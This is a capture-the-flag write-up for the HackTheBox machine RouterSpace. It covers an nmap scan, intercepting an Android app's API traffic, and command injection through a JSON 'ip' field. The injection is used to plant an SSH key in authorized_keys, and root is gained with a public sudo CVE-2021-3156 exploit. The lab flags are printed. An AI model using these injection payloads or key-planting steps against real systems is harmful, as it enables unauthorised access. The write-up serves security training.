




# RouterSpace - HackTheBox - Writeup
Linux, 20 Base Points, Easy


## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22``` and ```80```.

***User***: By analyzing the ```RouterSpace.apk``` application we found an HTTP POST request to ```routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess``` which is vulnerable to command injection, Using that we add our SSH public key and we get a shell as ```paul``` user.

***Root***: By checking the ```sudo``` version we can see the ```sudo``` is vulnerable to ```CVE-2021-3156```, Using that we get the ```root``` flag.


## RouterSpace Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/RouterSpace]
└──╼ $ nmap -sV -sC -oA nmap/RouterSpace 10.10.11.148
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-07 22:52 IST
Nmap scan report for 10.10.11.148
Host is up (0.12s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-RouterSpace Packet Filtering V1
80/tcp open  http
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-16659
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 71
|     ETag: W/"47-Bc6WVXt2k+h3ZLyYCQbPAiFel1E"
|     Date: Mon, 07 Mar 2022 20:58:47 GMT
|     Connection: close
|     Suspicious activity detected !!! {RequestID: oysc nh7YF SzUS O w }
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-45664
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT
|     ETag: W/"652c-17d476c9285"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 25900
|     Date: Mon, 07 Mar 2022 20:58:43 GMT
|     Connection: close
|     <!doctype html>
|     <html class="no-js" lang="zxx">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>RouterSpace</title>
|     <meta name="description" content="">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/owl.carousel.min.css">
|     <link rel="stylesheet" href="css/magnific-popup.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/themify-icons.css">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-4988
|     Allow: GET,HEAD,POST
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 13
|     ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"
|     Date: Mon, 07 Mar 2022 20:58:44 GMT
|     Connection: close
|     GET,HEAD,POST
|   RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
|_http-title: RouterSpace
|_http-trane-info: Problem with XML parsing of /evox/about
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22-TCP:V=7.80%I=7%D=3/7%Time=622670BA%P=x86_64-pc-linux-gnu%r(NULL,
SF:29,"SSH-2\.0-RouterSpace\x20Packet\x20Filtering\x20V1\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.80%I=7%D=3/7%Time=622670BA%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,3476,"HTTP/1\.1\x20200\x20OK\r\nX-Powered-By:\x20RouterSpace\r\nX
SF:-Cdn:\x20RouterSpace-45664\r\nAccept-Ranges:\x20bytes\r\nCache-Control:
SF:\x20public,\x20max-age=0\r\nLast-Modified:\x20Mon,\x2022\x20Nov\x202021
SF:\x2011:33:57\x20GMT\r\nETag:\x20W/\"652c-17d476c9285\"\r\nContent-Type:
SF:\x20text/html;\x20charset=UTF-8\r\nContent-Length:\x2025900\r\nDate:\x2
SF:0Mon,\x2007\x20Mar\x202022\x2020:58:43\x20GMT\r\nConnection:\x20close\r
SF:\n\r\n<!doctype\x20html>\n<html\x20class=\"no-js\"\x20lang=\"zxx\">\n<h
SF:ead>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<met
SF:a\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\x20\x
SF:20\x20<title>RouterSpace</title>\n\x20\x20\x20\x20<meta\x20name=\"descr
SF:iption\"\x20content=\"\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\"\x
SF:20content=\"width=device-width,\x20initial-scale=1\">\n\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"css/bootstrap\.min\.css\">\n\x2
SF:0\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"css/owl\.carousel\.m
SF:in\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"css/m
SF:agnific-popup\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20h
SF:ref=\"css/font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"sty
SF:lesheet\"\x20href=\"css/themify-icons\.css\">\n\x20")%r(HTTPOptions,107
SF:,"HTTP/1\.1\x20200\x20OK\r\nX-Powered-By:\x20RouterSpace\r\nX-Cdn:\x20R
SF:outerSpace-4988\r\nAllow:\x20GET,HEAD,POST\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nContent-Length:\x2013\r\nETag:\x20W/\"d-bMedpZYG
SF:rVt1nR4x\+qdNZ2GqyRo\"\r\nDate:\x20Mon,\x2007\x20Mar\x202022\x2020:58:4
SF:4\x20GMT\r\nConnection:\x20close\r\n\r\nGET,HEAD,POST")%r(RTSPRequest,2
SF:F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")
SF:%r(X11Probe,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20cl
SF:ose\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20200\x20OK\r\nX-Powe
SF:red-By:\x20RouterSpace\r\nX-Cdn:\x20RouterSpace-16659\r\nContent-Type:\
SF:x20text/html;\x20charset=utf-8\r\nContent-Length:\x2071\r\nETag:\x20W/\
SF:"47-Bc6WVXt2k\+h3ZLyYCQbPAiFel1E\"\r\nDate:\x20Mon,\x2007\x20Mar\x20202
SF:2\x2020:58:47\x20GMT\r\nConnection:\x20close\r\n\r\nSuspicious\x20activ
SF:ity\x20detected\x20!!!\x20{RequestID:\x20oysc\x20\x20nh7YF\x20\x20SzUS\
SF:x20O\x20w\x20}\n\n\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

```

By observing port 80 we get the following web page:


By clicking on [Download](http://10.10.11.148/RouterSpace.apk) we get the following [RouterSpace.apk](./RouterSpace.apk) file.

Let's install the APK on [Genymotion Android Emulator](https://www.genymotion.com/):



We can see the button on ```Check Status```.

Let's connect the Android emulator to [Burp Suite](https://portswigger.net/burp):

1. Go to ```Settings```



2. Click on ```Network & Internet```



3. Click on ```AndroidWifi``` and then on ```Modify Network```

4. Configure the Proxy settings as follows with your IP address to Burp



Now, By clicking on ```Check Status``` button we can see the following request on Burp:
```HTTP
POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1
accept: application/json, text/plain, */*
user-agent: RouterSpaceAgent
Content-Type: application/json
Content-Length: 16
Host: routerspace.htb
Connection: close
Accept-Encoding: gzip, deflate

{"ip":"0.0.0.0"}

```

We can see the domain ```routerspace.htb```, Let's add it to ```/etc/hosts```.

Next, Let's send the HTTP request to the machine IP:
```HTTP
POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1
accept: application/json, text/plain, */*
user-agent: RouterSpaceAgent
Content-Type: application/json
Content-Length: 16
Host: routerspace.htb
Connection: close
Accept-Encoding: gzip, deflate

{"ip":"10.10.11.148"}

```

And we get the following response:
```HTTP
HTTP/1.1 200 OK
X-Powered-By: RouterSpace
X-Cdn: RouterSpace-76291
Content-Type: application/json; charset=utf-8
Content-Length: 16
ETag: W/"10-BlxNnG9XXox6OkKPYocmDX3rnQE"
Date: Mon, 07 Mar 2022 21:46:26 GMT
Connection: close

"10.10.11.148\n"
```

We can guess that the server sends ```ping``` request to the router, By trying to use command injection we get the following:
```HTTP
POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1
accept: application/json, text/plain, */*
user-agent: RouterSpaceAgent
Content-Type: application/json
Content-Length: 21
Host: routerspace.htb
Connection: close
Accept-Encoding: gzip, deflate

{"ip":"10.10.11.148|ls"}
```

Response:
```HTTP
HTTP/1.1 200 OK
X-Powered-By: RouterSpace
X-Cdn: RouterSpace-70797
Content-Type: application/json; charset=utf-8
Content-Length: 67
ETag: W/"43-r6vycMXY+hztM+WeheZPKqBQlCo"
Date: Mon, 07 Mar 2022 21:47:17 GMT
Connection: close

"index.js\nnode_modules\npackage.json\npackage-lock.json\nstatic\n"
```

And we sucessfully get command injection.

By running ```whoami``` we get ```paul``` user.

By trying to get reverse shell we see all outbound traffic is blocked.

Let's add our SSH public key to ```/home/paul/.ssh/authorized_keys```:

```HTTP
POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1
accept: application/json, text/plain, */*
user-agent: RouterSpaceAgent
Content-Type: application/json
Content-Length: 627
Host: routerspace.htb
Connection: close
Accept-Encoding: gzip, deflate

{"ip":"10.10.11.148|echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADA9c....XoeyCjsCyBBppsYrUugx29ekU= evyatar@parrot' > /home/paul/.ssh/authorized_keys"}
```

And now we can log in using our SSH private key:
```console
┌─[evyatar@parrot]─[/hackthebox/RouterSpace]
└──╼ $ ssh -i id_rsa paul@routerspace.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 08 Mar 2022 08:59:00 PM UTC

  System load:           0.05
  Usage of /:            70.3% of 3.49GB
  Memory usage:          16%
  Swap usage:            0%
  Processes:             250
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.148
  IPv6 address for eth0: dead:beef::250:56ff:feb9:8cac

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

80 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Nov 20 18:30:35 2021 from 192.168.150.133
paul@routerspace:~$ cat user.txt
e7c7deea17d8a3e8ee84bc7548f6bf95
```

And we get the user flag ```e7c7deea17d8a3e8ee84bc7548f6bf95```.

### Root

By checking the ```sudo``` version we can see:
```console
paul@routerspace:~$ sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
```

We can use [CVE-2021-3156 (Sudo Baron Samedit)](https://github.com/worawit/CVE-2021-3156).

Let's run [exploit_nss.py](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py):
```console
paul@routerspace:~$ python3 exploit_nss.py 
# whoami
root
# cat /root/root.txt
2f8815b0f2508ca7ceb7ccc102a29a17
```

And we get the root flag ```2f8815b0f2508ca7ceb7ccc102a29a17```.
